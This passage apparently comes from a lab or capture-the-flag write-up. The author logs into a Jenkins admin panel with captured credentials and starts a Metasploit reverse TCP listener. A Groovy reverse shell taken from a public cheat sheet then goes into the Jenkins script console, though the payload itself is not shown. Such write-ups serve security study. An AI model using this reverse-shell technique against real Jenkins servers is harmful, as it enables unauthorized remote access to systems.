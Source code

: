 I validated I was able to login with this new set of credentials and was pleased to access the jenkins admin panel.

![jenkins admin](/static/img/internal_http_jenkins_admin.png)

### Popping a shell in jenkins

While I had access to the jenkins filesystem, I decided to open a shell into the container via the groovy shell for further enumeration. I prepared another listener to catch the shell.

```bash
msf5 exploit(multi/handler) > run -j
[*] Exploit running as background job 5.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 10.10.253.137:4444 
```

I also prepared an example shell from [payload all the things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#groovy) which entered into the groovy script console of jenkins.
